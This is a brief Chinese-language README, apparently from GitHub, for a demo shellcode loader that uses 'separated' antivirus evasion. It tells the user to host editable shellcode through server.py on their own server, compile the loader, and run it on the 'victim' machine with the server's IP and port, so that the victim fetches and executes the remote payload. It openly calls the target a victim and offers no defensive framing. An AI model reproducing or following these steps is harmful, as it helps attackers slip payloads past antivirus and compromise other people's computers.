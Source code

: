 ## 简介
根据分离免杀的思路写了一个demo，建议去使用倾旋大佬的Cooolis-ms，我吹爆。 

## 名字由来
我就是个起名鬼才，随手就是个名字。  

## 优势
问就是没有  

## 使用
在服务器上运行server.py，注意根据需求修改文件中shellcode内容即可。   
编译shellcodeloader。  
然后victim上运行：
```
shellcodeloader.exe ip port #服务器的ip和端口
```

## 其他
有问题不要找我，自己跟着网上代码改就可以了。  
